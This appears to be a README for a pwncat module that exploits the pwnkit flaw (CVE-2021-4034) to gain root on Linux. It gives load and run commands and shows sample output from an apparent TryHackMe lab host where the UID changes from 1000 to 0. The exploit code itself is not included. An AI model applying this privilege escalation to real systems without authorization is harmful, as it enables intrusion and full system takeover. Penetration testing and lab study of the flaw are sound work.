 # pwncat_pwnkit

## Introduction
The purpose of this module is to attempt to exploit CVE-2021-4034 (pwnkit) on a target when using pwncat.

There is no need to setup any directories, compile any source or even have gcc on the remote target; the pwnkit module takes care of this automatically using the pwncat framework.

## Setup and Use
- Simply copy `pwnkit.py` somewhere on your host where pwncat-cs is installed. ie: /home/user/pwncat_mods
- In pwncat, simply type: `load /home/user/pwncat_mods`
- To confirm the module loaded, type: `search pwnkit`. You should see something like this:
```
(local) pwncat$ search pwnkit
                                                      Results                                                      
                   ╷                                                                                               
  Name             │ Description                                                                                   
 ══════════════════╪══════════════════════════════════════════════════════════════════════════════════════════════ 
  pwnkit           │ Exploit CVE-2021-4034 to privesc to root
``` 
- To execute, simply type `run pwnkit`. If it's successful, you should see the UID change to 0, and now be root. ie:
```
(local) pwncat$ run pwnkit
[00:12:15] 10.10.184.131:47148: ran pwnkit. UID : Before(1000) | After(0)                            manager.py:955
           Module pwnkit completed successfully                                                          run.py:100
(local) pwncat$                                                                                                    
(remote) root@pwnkit:/# id
uid=0(root) gid=0(root) groups=0(root),1000(tryhackme)
```

## Tips
- If you don't want to always call `load`, you can have pwncat automatically load this module on startup by placing it in `~/.local/share/pwncat/modules`
- To use the cross-compiler to build the exploit on your machine and upload it to the target, you need to set the **cross** variable in your pwncatrc file. This file is typically found at ~/.local/share/pwncat/pwncatrc`. ie:
```
# Set the gcc path
set cross "/usr/bin/gcc"
```

## Thanks
A special shout out to [Caleb Stewart](https://github.com/calebstewart/pwncat) for being helpful as I pushed through learning the pwncat framework from a dev perspective. I will get a pull request to put this in the main pwncat escalate module someday when I have free time... I promise. :-) 
